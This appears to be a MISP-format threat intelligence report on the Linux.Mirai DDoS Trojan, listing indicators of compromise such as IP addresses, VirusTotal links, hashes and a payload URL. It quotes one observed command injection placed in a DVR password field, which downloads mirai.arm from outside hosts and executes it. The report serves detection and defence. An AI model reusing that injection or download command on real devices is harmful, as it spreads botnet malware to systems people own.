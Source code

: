 # Threat Report: 2016-10-01: OSINT - Investigation of Linux.Mirai Trojan family


## Key Intelligence
* Date: 2016-10-01
* Threat Level: 3 (Low)
* Tags: circl:incident-classification="malware", type:OSINT, ms-caro-malware:malware-type="DDoS", ms-caro-malware:malware-platform="Linux", misp-galaxy:tool="Mirai"

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* filename: .shinigami

### External analysis
* comment: A Trojan for Linux that was named  Linux.Mirai has several predecessors. The first malware program belonging  to  this  family  was  spotted  in  May  2016  and  was  dubbed  Linux.DDoS.87.  At  the  beginning  of August,  a  new  version  of  this  Trojan Linux.DDoS.89 was  discovered.  Finally,  Doctor  Webâ€™s  security researchers investigated the 
Linux.Mirai Trojan found later that month.
* attachment: Investigation_of_Linux.Mirai_Trojan_family_en.pdf — Dr.WEB - Investigation of Linux.Mirai Trojan family
* link: http://www.kernelmode.info/forum/viewtopic.php?f=16&t=4477
* link: https://www.virustotal.com/file/f8fcaa18be035d0448de7db6781c5e495b665bd3844119171714431a3c1aedbc/analysis/1465114448/ — ARM - Xchecked via VT: 9ff383309ad63da2caa9580d7d85abeece9b13a0
* link: https://www.virustotal.com/file/7cf5d0188e43a9a46676d8e71dc251c0871b23eff9d66f89d7eabaeba7a3d2cc/analysis/1464739147/ — ARM - Xchecked via VT: 8fd0d16edf270c453c5b6b2481d0a044a410c7cd
* link: https://www.virustotal.com/file/45b7fa5ad2eae5b32b15ccef313713a37481b6178c4c8bbbb524822a56883b56/analysis/1465114403/ — x86 - Xchecked via VT: c129e2a23abe826f808725a0724f12470502a3cc

### Network activity
* ip-dst: 5.206.225.122
* ip-dst: 151.80.99.84

### Payload delivery
* sha1: <sha1> — x86
* sha1: <sha1> — ARM
* sha1: <sha1> — ARM
* url: http://5.206.225.122/bins/mirai.arm
* comment: Password=;tftp -l /dev/dvrHelper -r mirai.arm -g 151.80.99.84 || wget http://5.206.225.122/bins/mirai.arm -O /dev/dvrHelper; chmod 777 /dev/dvrHelper; cd /dev; ./dvrHelper 2>&1;/bin/busybox MIRAI 2>&1; — The malware was installed on a dvr and was started with this bash injection in password field
* sha256: <sha256> — ARM - Xchecked via VT: 9ff383309ad63da2caa9580d7d85abeece9b13a0
* md5: <md5> — ARM - Xchecked via VT: 9ff383309ad63da2caa9580d7d85abeece9b13a0
* sha256: <sha256> — ARM - Xchecked via VT: 8fd0d16edf270c453c5b6b2481d0a044a410c7cd
* md5: <md5> — ARM - Xchecked via VT: 8fd0d16edf270c453c5b6b2481d0a044a410c7cd
* sha256: <sha256> — x86 - Xchecked via VT: c129e2a23abe826f808725a0724f12470502a3cc
* md5: <md5> — x86 - Xchecked via VT: c129e2a23abe826f808725a0724f12470502a3cc
